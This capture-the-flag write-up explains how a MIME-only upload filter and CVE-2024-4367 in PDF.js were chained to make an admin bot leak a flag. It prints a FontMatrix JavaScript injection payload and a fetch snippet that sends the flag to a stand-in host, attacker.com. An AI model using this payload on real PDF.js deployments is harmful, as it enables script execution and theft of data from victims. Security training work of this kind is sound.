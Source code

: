 
# 🚀 **Mysterious File Upload Journey: Breaking PDF.js and Grabbing the Flag**

![Challenge Banner](https://media1.tenor.com/m/54mjjpuowCgAAAAd/ninjala-jane.gif)

### **Challenge Information**
- **Name:** Navigate a Mysterious File Upload Journey  
- **Challenge URL:** [http://172.206.89.197:9000/](http://172.206.89.197:9000/)  
- **Bot URL:** [http://172.206.89.197:9000/report](http://172.206.89.197:9000/report)  
- **Attachment:** [upload.zip](./upload.zip)  
- **Author:** [@S0nG0ku](https://twitter.com/s0ng0ku)  

---

## **📖 Introduction**
This writeup details how we explored a file upload challenge to bypass security filters and extract a flag from a restricted endpoint. Here's how the adventure unfolded:

1. Register on the platform.
2. Analyze the upload feature.
3. Exploit PDF.js to execute arbitrary JavaScript.
4. Retrieve the flag using the admin bot.

---

## **🕵️ Recon and Discovery**

### **1️⃣ Homepage**
The homepage presents a **login/register** feature and a basic upload interface.

![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*siGDgDwLDubjrv_6xkE5iQ.png)

### **2️⃣ Upload Feature**
Upon logging in, we access the **upload form**. The filter applied here is based only on **MIME type** validation, making it susceptible to tampering.

```html
<!-- Upload Filter in Source Code -->
if (file.mimeType === 'application/pdf') {
    // Allow upload
}
```
![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*peqYpT6c7tgO05KshrvWAg.png)

This weakness invites further exploration, but before rushing into bypasses, we check additional features.

---

## **⚙️ Understanding the Bot**
- **Behavior:** The admin bot visits **local URLs** shared through the application, verified using a **regex filter**.  
- **Access Scope:** The bot has privileged access to the `/flag` endpoint, which is restricted to **local IPs only (127.0.0.1)**.
![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:960/format:webp/1*9R8YFbmMSyRV_vfyxkuFVQ.png)


---

## **💡 The Exploit Plan**
To retrieve the flag, we'll use the following approach:

1. **Upload a malicious PDF** containing JavaScript to access `/flag` and send its content to our external server.  
2. **Send the bot a link** to the malicious PDF file hosted on the challenge server.  
3. The bot will execute our JavaScript and exfiltrate the flag to us.

---

## **📜 Crafting the Malicious PDF**
The platform uses **PDF.js** for rendering uploaded PDF files. A known vulnerability, **CVE-2024-4367**, allows **arbitrary JavaScript execution** through the `FontMatrix` attribute.

### **Vulnerability Exploit**
The payload injects JavaScript by escaping parentheses in the `FontMatrix` field:
```javascript
/FontMatrix [1 2 3 4 5 (0\); fetch('/flag')
    .then(r => r.text())
    .then(f => location='https://attacker.com/?flag=' + encodeURIComponent(f))]
```

### **Steps to Create the PDF**
1. Use a PDF generation tool (e.g., [PDFEdit](https://pdfedit.cz/) or Python libraries like `fpdf`) to embed the exploit.
2. Ensure all parentheses are escaped to prevent premature interpretation.
//https://miro.medium.com/v2/resize:fit:1400/format:webp/1*uwr9x8LSQH1oV2lWG9WHOg.png
![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*uwr9x8LSQH1oV2lWG9WHOg.png)

---

## **🖥️ Exploiting the Bot**
1. Upload the malicious PDF file.
2. Grab the file's URL and modify it to point to `127.0.0.1:5000/view/<filename>` for local bot access.
3. Send the URL to the bot via the provided reporting feature.
![Homepage Screenshot](https://miro.medium.com/v2/resize:fit:1238/format:webp/1*y3P4Mjc308n5xTHcAuZPCg.png)

```plaintext
POST /report
Content-Type: application/json

{
    "url": "http://127.0.0.1:5000/view/malicious.pdf"
}
```

4. Wait for the bot to visit the URL and execute the JavaScript.

---

## **🏁 Retrieving the Flag**
Once the bot executes the script, it fetches the flag from `/flag` and sends it to our server:
```javascript
fetch('/flag')
    .then(response => response.text())
    .then(flag => {
        location = `https://attacker.com/?flag=${encodeURIComponent(flag)}`;
    });
```

The flag will appear in your server logs, and in this case, it's:

```plaintext
AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
```

---

## **🎯 Key Takeaways**
1. **MIME Type Filters:** Always validate files using deeper inspection (e.g., content-based validation).
2. **Bot Exploits:** Bots with local access should have strict sandboxing to prevent malicious exploitation.
3. **PDF.js Vulnerabilities:** Always use the latest versions of libraries to patch known vulnerabilities.

---

## **📚 Resources**
- [PDF.js Documentation](https://mozilla.github.io/pdf.js/)
- [CVE-2024-4367 Details](https://cve.mitre.org/)
- [PDF Injection with JavaScript](https://codeanlabs.com/pdf-js-injection)
- [File Upload Security Best Practices](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

## **🌈 Bonus: Make It Your Own!**
You can use this approach in Capture The Flag (CTF) competitions or educational scenarios to practice:
- **File upload bypass techniques.**
- **Exploiting vulnerable libraries.**
- **Exfiltration using JavaScript payloads.**

> **Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before performing any security testing.

---
